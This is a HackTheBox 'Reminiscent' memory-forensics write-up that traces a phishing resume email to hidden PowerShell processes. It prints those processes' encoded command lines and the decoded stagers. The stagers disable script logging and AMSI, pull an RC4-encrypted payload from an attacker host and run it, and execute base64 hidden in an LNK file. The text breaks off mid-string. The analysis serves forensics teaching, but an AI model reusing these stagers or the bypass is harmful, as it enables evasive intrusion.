


# HTB - Reminiscent
> [Hackthebox](https://app.hackthebox.com) > Labs > [Challenges](https://app.hackthebox.com/challenges) > Forensics

# Challenge Description
Suspicious traffic was detected from a recruiter's virtual PC. A memory dump of the offending VM was captured before it was removed from the network for imaging and analysis. Our recruiter mentioned he received an email from someone regarding their resume. A copy of the email was recovered and is provided for reference. Find and decode the source of the malware to find the flag.

# ATT&CK Techniques discovered
* [Mitre T1566.002 - Phishing: Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/)
* [Mitre T1204.002 - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)
* [Mitre T1562.003 - Impair Defenses: Impair Command History Logging](https://attack.mitre.org/techniques/T1562/003/)
* [Mitre T1562.001 - Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)
* [Mitre T1140 - Deobfuscate/Decode Files or Information](https://attack.mitre.org/techniques/T1140/)
* [Mitre T1102 - Web Service](https://attack.mitre.org/techniques/T1102/)

# Step by Step

### 1.- Understand the problem
As always, understanding the problem and have interviews with the victims help us to get what is going on. According to the available information we have a compromised machine that was disconnected from the network (NIST 800-64 containment phase). From that machine, we have a memory dump and a copy from a suspicious email that the victim received.

**Files available:**
* **Memory dump:** flunder-pc-memdump.elf
* **Memory dump info:** imageinfo.txt
* **Suspicious email:** Resume.eml

### 2.- Email diving
Since exploring an email file (EML) it is easier than a memory dump, this will be our first stop. As always, first let's get valuable metadata from the file.

command | result
--- | ---
ls -alh | 1.6K Oct 24  2017 Resume.eml
file | Resume.eml: SMTP mail, ASCII text, with CRLF line terminators
sha256sum | cb34e5415542253bfff4d7fab8fb00d1e55cc9ffd1aed084a4e5c049574adc68
VirusTotal Search | https://www.virustotal.com/gui/file/cb34e5415542253bfff4d7fab8fb00d1e55cc9ffd1aed084a4e5c049574adc68 (found and clean)

It is a simple SMTP email. Let's open it with a text editor (use your fav, mine is Visual Studio Code).



I read the whole email (headers and content) and the only thing interesting that I found was an internal URL (`http://10.10.99.55:8080/resume.zip`). A resume document that is a zip is already suspicious, but within the boundries of this challenge we do not have access to any internal network to download the sample file. So, we will need to continue with the memory dump.

> **Forensics note:** While you are doing forensics, it is important to record every piece of information that it is important to the related incident. In this challenge we are just hunting for a flag, but on a real-world investigation, recording the date at when the email was sent, checking the headers, servers from where the email was sent, etc. are important pieces of information when you are building your case, specially your timeline.

### 3.- Memory dump investigation - Volatile time!
From the email that we just checked, we can see that a `resume.zip` file might be downloaded and executed. We do not know at this point and since we have a RAM memory dump and not a Harddisk RAW image we cannot use [Shimcache](https://andreafortuna.org/2017/10/16/amcache-and-shimcache-in-forensic-analysis/), [Shellbags](https://www.magnetforensics.com/blog/forensic-analysis-of-windows-shellbags/) or [Prefetch](https://www.magnetforensics.com/blog/forensic-analysis-of-prefetch-files-in-windows/) techniques. I will not get into details about those techniques, but I provided links for the reader to some research. Continuing.

To start scrapping information from the memory dump we must need to analyze it first, its structure. Fortunately, we have an amazing tool to do this called Volatily from [VolatilyFoundation](https://www.volatilityfoundation.org/). Since it is not the aim of this write-up to explain how the tool works or all its features and commands, I will leave this [Cheat Sheet](https://downloads.volatilityfoundation.org/releases/2.4/CheatSheet_v2.4.pdf) for future references.


To start using Volatily we need to analyze the memory structure first. For this we have a handy command called `imageinfo`. But in this case if we look at the file `imageinfo.txt` provided by the Incident Response team we can skip this part skip this part and just assume that the Profile info will be `Win7SP1x64`. 

```file
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : VirtualBoxCoreDumpElf64 (Unnamed AS)
                     AS Layer3 : FileAddressSpace (/home/infosec/dumps/mem_dumps/01/flounder-pc-memdump.elf)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf800027fe0a0L
          Number of Processors : 2
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff800027ffd00L
                KPCR for CPU 1 : 0xfffff880009eb000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2017-10-04 18:07:30 UTC+0000
     Image local date and time : 2017-10-04 11:07:30 -0700

```

Let us get all the processes that were running on the machine.

```bash
> vol.py -f flounder-pc-memdump.elf --profile=Win7SP1x64 pstree

Volatility Foundation Volatility Framework 2.6.1
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0xfffffa800169bb30:csrss.exe                         348    328      9    416 2017-10-04 18:04:29 UTC+0000
 0xfffffa8001f63b30:wininit.exe                       376    328      3     77 2017-10-04 18:04:29 UTC+0000
. 0xfffffa8001ff2b30:lsass.exe                        492    376      8    590 2017-10-04 18:04:30 UTC+0000
. 0xfffffa8001fcdb30:services.exe                     476    376     11    201 2017-10-04 18:04:29 UTC+0000
.. 0xfffffa8002204960:svchost.exe                     384    476     17    386 2017-10-04 18:04:30 UTC+0000
... 0xfffffa8001efa500:csrss.exe                      396    384      9    283 2017-10-04 18:04:29 UTC+0000
.... 0xfffffa8000e90060:conhost.exe                  2772    396      2     55 2017-10-04 18:06:58 UTC+0000
... 0xfffffa8001f966d0:winlogon.exe                   432    384      4    112 2017-10-04 18:04:29 UTC+0000
.. 0xfffffa80021044a0:svchost.exe                     792    476     21    443 2017-10-04 18:04:30 UTC+0000
.. 0xfffffa800209bb30:VBoxService.ex                  664    476     12    118 2017-10-04 18:04:30 UTC+0000
.. 0xfffffa800217cb30:svchost.exe                     900    476     41    977 2017-10-04 18:04:30 UTC+0000
.. 0xfffffa8002294b30:spoolsv.exe                    1052    476     13    277 2017-10-04 18:04:31 UTC+0000
.. 0xfffffa8002122060:sppsvc.exe                     1840    476      4    145 2017-10-04 18:04:37 UTC+0000
.. 0xfffffa80021b4060:SearchIndexer.                 1704    476     16    734 2017-10-04 18:04:47 UTC+0000
... 0xfffffa80023ed550:SearchFilterHo                 812   1704      4     92 2017-10-04 18:04:48 UTC+0000
... 0xfffffa80024f4b30:SearchProtocol                1960   1704      6    311 2017-10-04 18:04:48 UTC+0000
.. 0xfffffa80021ccb30:svchost.exe                     988    476     13    286 2017-10-04 18:04:30 UTC+0000
.. 0xfffffa8002390620:svchost.exe                    1196    476     28    333 2017-10-04 18:04:31 UTC+0000
.. 0xfffffa800096eb30:wmpnetwk.exe                   2248    476     18    489 2017-10-04 18:06:33 UTC+0000
.. 0xfffffa8002245060:taskhost.exe                   1720    476      8    148 2017-10-04 18:04:36 UTC+0000
.. 0xfffffa80022bbb30:svchost.exe                    1092    476     19    321 2017-10-04 18:04:31 UTC+0000
.. 0xfffffa8000945060:svchost.exe                    2120    476     12    335 2017-10-04 18:06:32 UTC+0000
.. 0xfffffa8002001b30:svchost.exe                     600    476     12    360 2017-10-04 18:04:30 UTC+0000
... 0xfffffa8000801b30:WmiPrvSE.exe                  2924    600     10    204 2017-10-04 18:06:26 UTC+0000
... 0xfffffa8000930b30:WmiPrvSE.exe                   592    600      9    127 2017-10-04 18:06:35 UTC+0000
.. 0xfffffa8002166b30:svchost.exe                     868    476     21    429 2017-10-04 18:04:30 UTC+0000
... 0xfffffa80022c8060:dwm.exe                       2020    868      4     72 2017-10-04 18:04:41 UTC+0000
.. 0xfffffa80020b5b30:svchost.exe                     728    476      7    270 2017-10-04 18:04:30 UTC+0000
. 0xfffffa8001fffb30:lsm.exe                          500    376     11    150 2017-10-04 18:04:30 UTC+0000
 0xfffffa80006b7040:System                              4      0     83    477 2017-10-04 18:04:27 UTC+0000
. 0xfffffa8001a63b30:smss.exe                         272      4      2     30 2017-10-04 18:04:27 UTC+0000
 0xfffffa80020bb630:explorer.exe                     2044   2012     36    926 2017-10-04 18:04:41 UTC+0000
. 0xfffffa80022622e0:VBoxTray.exe                    1476   2044     13    146 2017-10-04 18:04:42 UTC+0000
. 0xfffffa80007e0b30:thunderbird.ex                  2812   2044     50    534 2017-10-04 18:06:24 UTC+0000
. 0xfffffa800224e060:powershell.exe                   496   2044     12    300 2017-10-04 18:06:58 UTC+0000
.. 0xfffffa8000839060:powershell.exe                 2752    496     20    396 2017-10-04 18:07:00 UTC+0000
```

Here something that catches our eye is the execution of two `Powershells.exe`.

```bash
 0xfffffa80020bb630:explorer.exe                     2044   2012     36    926 2017-10-04 18:04:41 UTC+0000
. 0xfffffa80022622e0:VBoxTray.exe                    1476   2044     13    146 2017-10-04 18:04:42 UTC+0000
. 0xfffffa80007e0b30:thunderbird.ex                  2812   2044     50    534 2017-10-04 18:06:24 UTC+0000
. 0xfffffa800224e060:powershell.exe                   496   2044     12    300 2017-10-04 18:06:58 UTC+0000
.. 0xfffffa8000839060:powershell.exe                 2752    496     20    396 2017-10-04 18:07:00 UTC+0000
```

A quick view to the process tree help us to understand that, since the parent process (`PPID`) of all these executables are `explorer.exe (PID 2044)`, it means that they were launched by the user. This is a huge red flag during the investigation. 

Powershell.exe is a binary signed by Microsoft, so dumping the process would not be useful in this case. Attackers use this binary because of that exact reason, it is already installed in almost all Windows distribution, signed by Microsoft and it is really powerfull tool. This technique is called [Living off the Land](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/).

What we need to do here is to get the arguments on which this Powershells were executed. For that we have a handy plugin in Volatily 3 (yeah, sorry, Volatily 2 did not worked for me at this step) called `windows.cmdline.CmdLine`

```bash
> vol -f flounder-pc-memdump.elf windows.cmdline.CmdLine

[...] Removed other processes

496	powershell.exe	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -win hidden -Ep ByPass $r = [Text.Encoding]::ASCII.GetString([Convert]::FromBase64String('JHN0UCwkc2lQPTMyMzAsOTY3NjskZj0ncmVzdW1lLnBkZi5sbmsnO2lmKC1ub3QoVGVzdC1QYXRoICRmKSl7JHg9R2V0LUNoaWxkSXRlbSAtUGF0aCAkZW52OnRlbXAgLUZpbHRlciAkZiAtUmVjdXJzZTtbSU8uRGlyZWN0b3J5XTo6U2V0Q3VycmVudERpcmVjdG9yeSgkeC5EaXJlY3RvcnlOYW1lKTt9JGxuaz1OZXctT2JqZWN0IElPLkZpbGVTdHJlYW0gJGYsJ09wZW4nLCdSZWFkJywnUmVhZFdyaXRlJzskYjY0PU5ldy1PYmplY3QgYnl0ZVtdKCRzaVApOyRsbmsuU2Vlaygkc3RQLFtJTy5TZWVrT3JpZ2luXTo6QmVnaW4pOyRsbmsuUmVhZCgkYjY0LDAsJHNpUCk7JGI2ND1bQ29udmVydF06OkZyb21CYXNlNjRDaGFyQXJyYXkoJGI2NCwwLCRiNjQuTGVuZ3RoKTskc2NCPVtUZXh0LkVuY29kaW5nXTo6VW5pY29kZS5HZXRTdHJpbmcoJGI2NCk7aWV4ICRzY0I7')); iex $r;
2752	powershell.exe	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc JABHAHIAbwBVAFAAUABPAEwAaQBDAFkAUwBFAHQAdABJAE4ARwBzACAAPQAgAFsAcgBFAEYAXQAuAEEAUwBzAGUATQBCAEwAWQAuAEcARQB0AFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAEkARQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAgACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBHAEUAVABWAGEAbABVAGUAKAAkAG4AdQBsAEwAKQA7ACQARwBSAG8AdQBQAFAATwBsAEkAQwB5AFMAZQBUAFQAaQBOAGcAUwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0AIAA9ACAAMAA7ACQARwBSAG8AdQBQAFAATwBMAEkAQwBZAFMARQB0AFQAaQBuAGcAUwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQAgAD0AIAAwADsAWwBSAGUAZgBdAC4AQQBzAFMAZQBtAEIAbAB5AC4ARwBlAFQAVAB5AFAARQAoACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzACcAKQB8AD8AewAkAF8AfQB8ACUAewAkAF8ALgBHAEUAdABGAGkAZQBMAGQAKAAnAGEAbQBzAGkASQBuAGkAdABGAGEAaQBsAGUAZAAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAFMARQBUAFYAYQBMAHUARQAoACQATgB1AGwATAAsACQAVAByAHUAZQApAH0AOwBbAFMAeQBzAFQAZQBtAC4ATgBlAFQALgBTAEUAcgBWAEkAYwBlAFAATwBJAG4AdABNAEEAbgBBAGcARQBSAF0AOgA6AEUAeABwAEUAYwB0ADEAMAAwAEMATwBuAFQAaQBuAHUARQA9ADAAOwAkAFcAQwA9AE4ARQBXAC0ATwBCAGoARQBjAFQAIABTAHkAcwBUAEUATQAuAE4ARQB0AC4AVwBlAEIAQwBsAEkARQBuAHQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJAB3AEMALgBIAGUAYQBEAGUAcgBTAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJABXAGMALgBQAFIAbwBYAHkAPQBbAFMAeQBzAFQAZQBNAC4ATgBFAFQALgBXAGUAYgBSAGUAcQB1AEUAcwB0AF0AOgA6AEQAZQBmAGEAVQBMAHQAVwBlAEIAUABSAE8AWABZADsAJAB3AEMALgBQAFIAbwBYAFkALgBDAFIARQBEAGUATgB0AEkAYQBMAFMAIAA9ACAAWwBTAFkAUwBUAGUATQAuAE4ARQBUAC4AQwByAGUARABFAG4AVABpAGEATABDAGEAQwBoAGUAXQA6ADoARABlAEYAYQB1AEwAVABOAEUAdAB3AE8AcgBrAEMAcgBlAGQAZQBuAHQAaQBBAGwAUwA7ACQASwA9AFsAUwBZAFMAdABFAE0ALgBUAGUAeAB0AC4ARQBOAEMATwBEAEkAbgBnAF0AOgA6AEEAUwBDAEkASQAuAEcARQB0AEIAeQB0AEUAcwAoACcARQAxAGcATQBHAGQAZgBUAEAAZQBvAE4APgB4ADkAewBdADIARgA3ACsAYgBzAE8AbgA0AC8AUwBpAFEAcgB3ACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIAZwBTADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBvAHUAbgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAeABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAdwBjAC4ASABFAEEAZABFAHIAcwAuAEEARABEACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0ATQBDAGEAaAB1AFEAVgBmAHoAMAB5AE0ANgBWAEIAZQA4AGYAegBWADkAdAA5AGoAbwBtAG8APQAiACkAOwAkAHMAZQByAD0AJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADkAOQAuADUANQA6ADgAMAAnADsAJAB0AD0AJwAvAGwAbwBnAGkAbgAvAHAAcgBvAGMAZQBzAHMALgBwAGgAcAAnADsAJABmAGwAYQBnAD0AJwBIAFQAQgB7ACQAXwBqADAARwBfAHkAMAB1AFIAXwBNADMAbQAwAHIAWQBfACQAfQAnADsAJABEAGEAdABBAD0AJABXAEMALgBEAG8AVwBOAEwAbwBhAEQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQB2AD0AJABkAGEAVABBAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABEAEEAdABhAC4ATABlAG4ARwBUAEgAXQA7AC0ASgBPAEkATgBbAEMASABBAHIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAdABBACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

Both Powershells execute some kind of Base64. If we just decode the second powershell (`PID 2752`) we find the flag that we are looking for (I isolated the flag part for the reader to be easy to find it). 

```bash
$GroUPPOLiCYSEttINGs = [rEF].ASseMBLY.GEtTypE('System.Management.Automation.Utils')."GEtFIE`ld"('cachedGroupPolicySettings', 'N'+'onPublic,Static').GETValUe($nulL);$GRouPPOlICySeTTiNgS['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging'] = 0;$GRouPPOLICYSEtTingS['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging'] = 0;[Ref].AsSemBly.GeTTyPE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtFieLd('amsiInitFailed','NonPublic,Static').SETVaLuE($NulL,$True)};[SysTem.NeT.SErVIcePOIntMAnAgER]::ExpEct100COnTinuE=0;$WC=NEW-OBjEcT SysTEM.NEt.WeBClIEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$wC.HeaDerS.Add('User-Agent',$u);$Wc.PRoXy=[SysTeM.NET.WebRequEst]::DefaULtWeBPROXY;$wC.PRoXY.CREDeNtIaLS = [SYSTeM.NET.CreDEnTiaLCaChe]::DeFauLTNEtwOrkCredentiAlS;$K=[SYStEM.Text.ENCODIng]::ASCII.GEtBytEs('E1gMGdfT@eoN>x9{]2F7+bsOn4/SiQrw');$R={$D,$K=$ArgS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.CounT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxoR$S[($S[$I]+$S[$H])%256]}};$wc.HEAdErs.ADD("Cookie","session=MCahuQVfz0yM6VBe8fzV9t9jomo=");$ser='http://10.10.99.55:80';$t='/login/process.php';

$flag='HTB{REDACTED}';

$DatA=$WC.DoWNLoaDDATA($SeR+$t);$iv=$daTA[0..3];$DAta=$DaTa[4..$DAta.LenGTH];-JOIN[CHAr[]](& $R $datA ($IV+$K))|IEX
```

w00t! we got the flag! `HTB{REDACTED}`

### 4.- Going deeper
We already have the flag; you can stop reading here and I really hope that you learned something about memory forensics with Volatily; but even if the challenge ended here I want to go deeper with the Powershells we found!

The first Powershell (`PID 496`), the one that spawned the second, executes the following script.

```Powershell
$r = [Text.Encoding]::ASCII.GetString([Convert]::FromBase64String('JHN0UCwkc2lQPTMyMzAsOTY3NjskZj0ncmVzdW1lLnBkZi5sbmsnO2lmKC1ub3QoVGVzdC1QYXRoICRmKSl7JHg9R2V0LUNoaWxkSXRlbSAtUGF0aCAkZW52OnRlbXAgLUZpbHRlciAkZiAtUmVjdXJzZTtbSU8uRGlyZWN0b3J5XTo6U2V0Q3VycmVudERpcmVjdG9yeSgkeC5EaXJlY3RvcnlOYW1lKTt9JGxuaz1OZXctT2JqZWN0IElPLkZpbGVTdHJlYW0gJGYsJ09wZW4nLCdSZWFkJywnUmVhZFdyaXRlJzskYjY0PU5ldy1PYmplY3QgYnl0ZVtdKCRzaVApOyRsbmsuU2Vlaygkc3RQLFtJTy5TZWVrT3JpZ2luXTo6QmVnaW4pOyRsbmsuUmVhZCgkYjY0LDAsJHNpUCk7JGI2ND1bQ29udmVydF06OkZyb21CYXNlNjRDaGFyQXJyYXkoJGI2NCwwLCRiNjQuTGVuZ3RoKTskc2NCPVtUZXh0LkVuY29kaW5nXTo6VW5pY29kZS5HZXRTdHJpbmcoJGI2NCk7aWV4ICRzY0I7')); iex $r;
```

In simple (heh), it decodes the Base64 string, save it to the `$r` variable and runs it (that's the `iex` part). I already decoded, commented, and convert it to a more understandable/pretty way. Here it is.

```Powershell
# Define two variables
$stP = 3230;
$siP = 9676;

# Check if the file resume.pdf.lnk exist in C:\Users\user\AppData\Local\Temp folder
$f='resume.pdf.lnk';
if(-not(Test-Path $f)){
    $x = Get-ChildItem -Path $env:temp -Filter $f -Recurse;

    # Changes to $f location
    [IO.Directory]::SetCurrentDirectory($x.DirectoryName);
}

# Opens the resume.pdf.lnk file
$lnk = New-Object IO.FileStream $f,'Open','Read','ReadWrite';

# Creates a variable buffer with $siP 0's
$b64 = New-Object byte[]($siP);

# Moves the file cursor to position $stP (3230)
$lnk.Seek($stP, [IO.SeekOrigin]::Begin);

# Writes in $b64 (the variable buffe we created before)
# It is reading $siP (9676) bytes from $stP (3230) position.
$lnk.Read($b64, 0, $siP);

# Converts a base64 CharArray string and save it in $b64
$b64 = [Convert]::FromBase64CharArray($b64, 0, $b64.Length);

# Gets the base64 string 
$scB=[Text.Encoding]::Unicode.GetString($b64);

# Execute it
iex $scB;
```

In a nutshell, this Powershell aims to get an encoded Base64 Powershell script from an LNK file (between bytes `3230` and `9676`). Since we do not have t he `resume.pdf.lnk` original file (was not provided) I only can assume that the original infection (the one that was received by email, `resume.zip`) by some attack vector creates a file within the Temp directory called `resume.pdf.lnk`. Nonetheless, the last line of code of that script (`iex $scB`) executes another Powershell, and that's `PID 2752`. Let us go into that one.

**Powershell.exe (PID 2752)**
This is easier, we have another encoded Base64 here to decipher.

```Powershell
JABHAHIAbwBVAFAAUABPAEwAaQBDAFkAUwBFAHQAdABJAE4ARwBzACAAPQAgAFsAcgBFAEYAXQAuAEEAUwBzAGUATQBCAEwAWQAuAEcARQB0AFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAEkARQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAgACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBHAEUAVABWAGEAbABVAGUAKAAkAG4AdQBsAEwAKQA7ACQARwBSAG8AdQBQAFAATwBsAEkAQwB5AFMAZQBUAFQAaQBOAGcAUwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0AIAA9ACAAMAA7ACQARwBSAG8AdQBQAFAATwBMAEkAQwBZAFMARQB0AFQAaQBuAGcAUwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQAgAD0AIAAwADsAWwBSAGUAZgBdAC4AQQBzAFMAZQBtAEIAbAB5AC4ARwBlAFQAVAB5AFAARQAoACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzACcAKQB8AD8AewAkAF8AfQB8ACUAewAkAF8ALgBHAEUAdABGAGkAZQBMAGQAKAAnAGEAbQBzAGkASQBuAGkAdABGAGEAaQBsAGUAZAAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAFMARQBUAFYAYQBMAHUARQAoACQATgB1AGwATAAsACQAVAByAHUAZQApAH0AOwBbAFMAeQBzAFQAZQBtAC4ATgBlAFQALgBTAEUAcgBWAEkAYwBlAFAATwBJAG4AdABNAEEAbgBBAGcARQBSAF0AOgA6AEUAeABwAEUAYwB0ADEAMAAwAEMATwBuAFQAaQBuAHUARQA9ADAAOwAkAFcAQwA9AE4ARQBXAC0ATwBCAGoARQBjAFQAIABTAHkAcwBUAEUATQAuAE4ARQB0AC4AVwBlAEIAQwBsAEkARQBuAHQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJAB3AEMALgBIAGUAYQBEAGUAcgBTAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJABXAGMALgBQAFIAbwBYAHkAPQBbAFMAeQBzAFQAZQBNAC4ATgBFAFQALgBXAGUAYgBSAGUAcQB1AEUAcwB0AF0AOgA6AEQAZQBmAGEAVQBMAHQAVwBlAEIAUABSAE8AWABZADsAJAB3AEMALgBQAFIAbwBYAFkALgBDAFIARQBEAGUATgB0AEkAYQBMAFMAIAA9ACAAWwBTAFkAUwBUAGUATQAuAE4ARQBUAC4AQwByAGUARABFAG4AVABpAGEATABDAGEAQwBoAGUAXQA6ADoARABlAEYAYQB1AEwAVABOAEUAdAB3AE8AcgBrAEMAcgBlAGQAZQBuAHQAaQBBAGwAUwA7ACQASwA9AFsAUwBZAFMAdABFAE0ALgBUAGUAeAB0AC4ARQBOAEMATwBEAEkAbgBnAF0AOgA6AEEAUwBDAEkASQAuAEcARQB0AEIAeQB0AEUAcwAoACcARQAxAGcATQBHAGQAZgBUAEAAZQBvAE4APgB4ADkAewBdADIARgA3ACsAYgBzAE8AbgA0AC8AUwBpAFEAcgB3ACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIAZwBTADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBvAHUAbgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAeABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7A